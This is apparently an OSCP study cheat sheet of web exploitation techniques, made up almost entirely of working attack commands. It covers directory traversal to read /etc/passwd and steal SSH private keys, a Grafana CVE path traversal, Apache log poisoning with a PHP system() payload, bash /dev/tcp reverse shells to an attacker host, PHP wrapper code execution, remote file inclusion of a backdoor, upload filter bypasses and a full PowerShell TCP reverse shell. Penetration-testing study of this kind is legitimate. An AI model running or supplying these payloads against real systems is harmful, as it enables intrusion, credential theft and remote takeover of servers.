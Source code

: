 Tags: [[OSCP]]

---
- phpInfo: Look for `Document_Root`
- Wordpress https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

# Directory Traversal
- Show `ect/passwd` from php: `http://targeturl.com/index.php?page=../../../../../../../../../etc/passwd
- Grabbing/Saving SSH RSA Private Key of Username: `curl http://targeturl.com/index.php?page=../../../../../../../../../home/username/.ssh/id_rsa | 
    - Logging in with RSA key: `ssh -i dt_key -p 2222 username@targeturl.com
- Windows - Grafana Vulnerability (CVE-2021-43798): `http://ipaddress:3000/public/plugins/mysql/../../../../../../../../Users/Install.txt
- URL encoding: `curl http://ipaddress/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords

# Local File Inclusion (LFI) through Log Poisoning
Write executeable code to Apache's access.log file in /var/log/apache2/
- Add PHP snippet to user agent header of GET request: `<?php echo system($_GET['cmd']); ?>
- Modify GET request with directory traversal to log file & cmd: `GET /index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la
- Reverse Shell
    - Start netcat listener: `nc -nvlp 4444`
    - Mod GET cmd to bash reverse shell one-liner = `bash -c "bash -i >& /dev/tcp/local.host.ip.address/4444 0>&1"
        - URL Encoded: `GET index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Flocal.host.ip.address%2Fport%200%3E%261%22
- Alt to show sensitive file: `GET /index.php?page=../../../../../../../../../xampp/htdocs/secret.txt&cmd=cat

# PHP Wrappers (Bypassing file inclusion filters)
Filter (To read contents)
- No encoding: `curl http://targeturl.com/index.php?page=php://filter/resource=admin.php
- Base64 Encode: `curl http://targeturl.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
- Alt Base64 encode: `curl http://192.168.244.16/meteor/index.php?page=php://filter/convert.base64-encode/resource='/var/www/html/backup.php'
    - To decode Base64 : echo "BaSE64StR1nG0fL3tt3rsaNDnuMB34s!" | base64 -d
Data (Code Execution)
- `curl http://targetip/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>`

# Remote File Inclusion
- Serve reverse shell script: `python3 -m http.server 80` 
- Curl reverse shell through target: `curl "http://targeturl.com/index.php?page=http://HOST.IP.ADDRESS/simple-backdoor.php&cmd=ls"`
- Run Netcat to capture reverse shell: `nc -nvlp 80
# File Upload with Executables
Bypass .php with .phps .php7 .pHP .PhP
Setup Netcat Listener: `nc -nvlp 4444`
Use Powershell to encode reverse shell one-liner
- `pwsh`
- `$Text = '$client = New-Object System.Net.Sockets.TCPClient("HOST.IP.ADDRESS",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'`
- To Unicode`$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`